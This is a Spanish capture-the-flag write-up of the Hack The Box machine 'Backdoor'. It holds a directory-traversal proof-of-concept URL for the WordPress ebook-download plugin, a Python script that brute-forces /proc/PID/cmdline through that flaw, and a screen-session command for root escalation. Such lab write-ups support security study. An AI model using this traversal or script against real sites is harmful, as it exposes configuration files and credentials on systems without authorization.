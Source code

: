 ```yaml
---
layout: single
title: Backdoor - Hack The Box
excerpt: "En esta máquina fácil nos estaremos aprovechando del plugin de WordPress **ebook-download** para explotar un **Local File Inclusion** y así poder descubrir el comando **gdbserver** en la ruta **/proc/**. Después, explotaremos una vulnerabilidad de dicho servicio con la que obtendremos acceso a la maquina víctima. Una vez dentro, encontraremos una sesión de screen **activa** y al conectarnos estaremos como root"
date: 2023-09-08
classes: wide
header:
  teaser: /assets/images/htb-writeup-backdoor/backdoor_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - Linux
  - Wordpress
  - Local File Inclusion
  - Scripting en python
  - gdbserver exploit
  - Sesión con screen
---
```


![](/assets/images/htb-writeup-backdoor/backdoor_logo.png)

# Enumeración
Puertos abiertos:
![](/assets/images/htb-writeup-backdoor/escaner_nmap_backdoor.png)

Al hacer click en **Home** vemos que nos redirige a **backdoor.htb** por lo que tendremos que añadir esa ruta en el **/etc/hosts**. Esto nos puede hacer pensar que hay más subdominios pero si hacemos un escaneo nos daremos cuenta de que no encontramos ninguno.

Al tratarse de un **Wordpress** debemos echarle un ojo a la ruta **/wp-content/plugins/** que es donde residen los plugins y de los cuales nos podemos aprovechar para encontrar vulnerabilidades.
![](/assets/images/htb-writeup-backdoor/wordpress_plugins_backdoor.png)
<br>Tenemos capacidad de **Directory Listing**, esto es una gran noticia ya que nos facilita mucho la tarea. Encontramos el plugin de **ebook-download** y si miramos el **readme.txt** podemos encontrar la versión que se está utilizando.
![](/assets/images/htb-writeup-backdoor/version_ebook_download.png)
<br>Realizando una rápida búsqueda con **searchsploit** nos damos cuenta de que hay un **Directory Traversal** asociado a este plugin el cual nos va a permitir realizar un **Local File Inclusion**.
![](/assets/images/htb-writeup-backdoor/searchsploit_ebook_download.png)
**PoC:** /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

Con esto podemos leer el **/etc/passwd** y darnos cuenta de que existe el usuario **user** pero si intentamos leer la **id_rsa** en la ruta **/home/user/.ssh/id_rsa** no obtendremos nada. Otra cosa que podriamos realizar es leer el **/etc/hosts** para ver si tiene algún subdominio que no hayamos detectado en un primer momento pero no obtendremos gran cosa. Después de probar con varias rutas más encontramos **/proc** pero, ¿Para que se usa esta ruta?

Cuando nosotros ejecutamos un proceso, por ejemplo: **nc -lvnp 4444**<br>
Y posteriormente lo ponemos en segundo plano con: **ctrl + z** y listamos su **PID** con ps.<br>
El comando se guardará en la ruta **/proc/PID/cmdline** y podremos leerlo. Por lo que sería una idea interesante **aplicar un ataque de fuerza bruta a esas rutas** para ello crearemos el siguiente script en python3:
```python
#!/usr/bin/python3

import requests, signal, sys, pdb, time
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo.....\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

main_url="http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl="

def bruteForce():

    p1 = log.progress("Iniciando fuerza bruta: ")
    p1.status("Empezando ataque de fuerza bruta: ")
    
    time.sleep(5)
    for i in range(0,10000):
        
        p1.status("Probando con la ruta: /proc/%s/cmdline " % str(i))

        full_url = main_url + "/proc/" + str(i) + "/cmdline"
        r = requests.get(full_url)
        if len(r.content) > 82:
            print("-----------------------------------------------------------------------------------")
            log.info("Ruta: /proc/%s/cmdline" % str(i))
            log.info("Longitud total: %s" % len(r.content))
            output = r.text.replace('/proc/'+str(i)+'/cmdline','').replace('<script>window.close()</script>','').replace('\x00','')
            log.info(output)
            print("-----------------------------------------------------------------------------------")

if __name__ == '__main__':
    
    bruteForce()

```
Gracias a esto encontraremos la siguiente información:
![](/assets/images/htb-writeup-backdoor/brute_force_information.png)
## Explotación de gdbserver
### ¿Qué es gdbserver?
Es un programa informático usado para la depuración remota de otros programas. Se ejecuta en el mismo sistema que el programa que se va a depurar, esto permite que el programa **(GDB)** se conecte desde otro sistema, es decir, sólo es necesario que el ejecutable a depuerar resida en el sistema destino **"target"**, mientras que el código fuente y una copia del archivo binario a depurar residen en el ordenador local del desarrollador **"host"**. La conexión puede ser TCP o una línea de serie.
### ¿Cómo lo explotamos?
Detectamos que **gdbserver** esta gestionando el puerto **1337**. Buscando vulnerabilidades de gdbserver con **searchsploit** encontraremos una. El funcionamiento del exploit sería el siguiente:
![](/assets/images/htb-writeup-backdoor/uso_del_exploit.png)
<br>Por lo que siguiendo esos pasos lograriamos entrar en la máquina Backdoor como el usuario **user**
![](/assets/images/htb-writeup-backdoor/exploit_funcionando.png)
## Escalada de Privilegios 
Antes, al hacer el ataque de fuerza bruta hemos detectado otro proceso relacionado con **screen**. Lo podiamos haber descubierto tambien con **pspy:** [Descargar pspy:](https://github.com/DominicBreuker/pspy) 
![](/assets/images/htb-writeup-backdoor/escaner_pspy.png)
<br>**¿Qué es el comando screen?**
<br>El comando screen es una herramienta de terminal que permite crear y controlar múltiples sesiones de terminal en una sola terminal. Es muy parecida a **tmux**.<br>
La linea de comandos que se esta ejecutando quiere decir que si la ruta **/var/run/screen/S-root/** está vacía se va a ejecutar una sesión con screen llamada root.<br>
Por lo que podriamos conectarnos a esa sesión con el siguiente comando:
```bash
screen -x root/
```
Importante poner la / del final. Destacar también que las sesiones activas se guardan en la ruta **/run/screen/S-{nombre_usuario}**.

Hecho esto habriamos entrado a esa sesión como **root** y tendriamos control total sobre la máquina **Backdoor**
